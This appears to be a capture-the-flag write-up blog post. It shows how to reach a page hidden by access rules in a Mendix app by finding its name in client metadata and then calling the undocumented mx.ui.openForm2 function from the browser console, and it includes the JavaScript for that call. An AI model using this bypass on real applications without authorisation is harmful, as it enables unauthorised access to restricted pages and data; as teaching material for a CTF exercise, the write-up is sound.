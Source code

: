```yaml
---
title: "No Accessible Vector (CTF solution)"
# description: "How to find the best hardware for Mendix developers"
author: "Marius"
url: "/blog/capture-the-flag-solutions-no-accessible-vector"
date: "2025-10-18"
tags: ["Mendix", "Development", "Tips", "Challenge", "CTF"]

ShowReadingTime: true
hidemeta: false
showtoc: false
# draft: true
---
```


> _Another day, another tester leaking something they shouldn't. You have no chance navigating your way to the flag though: It is simply not visible for you!_

**Difficulty: Medium**

Let's solve the No Accessible Vector challenge using the principles we've just learned. Make sure you read the [Capture the Flag tips](/blog/capture-the-flag-tips) first, as this article leans heavily on the first.

First, we read the description and realize that a tester built a page that we don't have access to. We can use our first principle of **using developer mistakes** to theorize about the solution. One common mistake is a developer not realizing that all pages are accessible regardless of access rules. All we have to do is figure out the name of the page.

Going back to our **client − server** knowledge, there might be some data exchanged about available pages. And indeed, one of the requests contains some metadata about the page that includes pages not accessible to the current userrole:

![Burp content](/Burpcontent.png)

Now that we know the name of the page, all we have to do is open it. Attempting to open the page using the Ciphix DevTools is not possible because of the new strict mode enabled on this app. However, we know that the app _can_ open pages and using our knowledge about the client − server protocol, it needs to have a method to do so. We'll we have to do refer to the **[Client API](https://docs.mendix.com/apidocs-mxsdk/apidocs/client-api/)** to find available methods.

We can find a method called OpenForm in the [Dojo](https://apidocs.rnd.mendix.com/10/client/mx.ui.html#.openForm) documentation:
```
mx.ui.openForm("Portal/DevTools.page.xml", {
    location: "popup",
    callback: function(form) {
        console.log(form.id);
    }
});
```

Unfortunately for us attempting to execute this JavaScript function leads to an error. Apparently, OpenForm does not exist in the React client anymore. We'll have to find another way!

Searching through the requests in **Burp**, we find a reference to an undocumented function OpenForm2:

![OpenForm2](/OpenForm2.png)

Being undocumented provides some difficulty in figuring out which parameters the function expects. Since this is a client-side JavaScript function we can just enable a debugger on the JavaScript code and reuse the parameters from that request.

![Debugging OpenForm2](/DebugOpenForm2.png)

Using these parameters, we can construct our own JavaScript function by replacing some content with our own and executing it from the browser console:

```
let e = "Portal/DevTools.page.xml";  //PageTitle
let n = {}; // ?
let r = null; // ?
let i = {
    "place": "content",
    "listeners": {},
    "suspended": false,
    "title": "Homepage",
    "historyId": "historyId_tks_0",
    "storeBackend": {
        "recordGroups": {},
        "mirrorCount": {},
        "usedSlotsCount": {},
        "slotObservers": {}
    },
    "name": "Portal.Home_Web"
}
let s = {
    "name": "Portal/MyDoctors.page.xml",
    "location": "content",
    "allowedRoles": [
        "Administrator",
        "User"
    ]
}
let c = 0; // Pages to close

mx.ui.openForm2(e,n,r,i,s,c);
```

This leads us to the hidden page and our flag. I hope this illustrates how each [principle](../capture-the-flag-tips) comes into play to solve these puzzles!